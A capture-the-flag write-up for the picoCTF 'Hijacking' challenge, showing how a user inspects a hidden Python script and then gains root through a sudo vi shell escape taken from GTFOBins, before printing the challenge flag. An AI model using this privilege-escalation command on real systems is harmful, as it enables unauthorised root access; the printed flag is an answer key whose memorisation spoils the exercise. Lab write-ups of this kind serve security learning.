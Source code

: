 # Hijacking #

## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags : `#privilege_escalation`

## Description ##
> Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server. Launch your own instance to get an ssh server.

### Solution ###

Let's play around with the ssh. After sshing, run a quick ls. This gives no output, so let's check for hidden files with the `-a` command, giving us:

`picoctf@challenge:~$ ls -a
.  ..  .bash_logout  .bashrc  .cache  .profile  .server.py`

As we can see, there is a Python file, so let's `cat` the file and see what is inside.

picoctf@challenge:~$ cat .server.py

import base64

import os

import socket

ip = 'picoctf.org'

response = os.system("ping -c 1 " + ip)

#saving ping details to a variable

host_info = socket.gethostbyaddr(ip)

#getting IP from a domaine

host_info_to_str = str(host_info[2])

host_info = base64.b64encode(host_info_to_str.encode('ascii'))

print("Hello, this is a part of information gathering",'Host: ', host_info)

Although this file will help in the challenge, I managed to find a unintended solution:

First, let's `cd` into the `/` directory and list the contents of the directory.

`picoctf@challenge:~$ cd /`

`picoctf@challenge:/$ ls -a
.  ..  .dockerenv  bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var`

As we can see, our end goal is to change into the root directory. Knowing that that `vi` command is available to us, we use GTFOBins to find possible exploits to gain root privileges.

https://gtfobins.github.io/gtfobins/vi/

Scrolling down to the vi section, we can see this command: `sudo vi -c ':!/bin/sh' /dev/null`

Input this into the terminal, and put in the password for picoctf that they give you with the instance. This should give you root privileges. Now, the challenge is simple: just `cd` into the `/` directory, then `cd` into the `root` directory.

Finally, run `ls -a` and you will see a text file named `.flag.txt`. Simply `cat` this file and you will get:

`picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}`
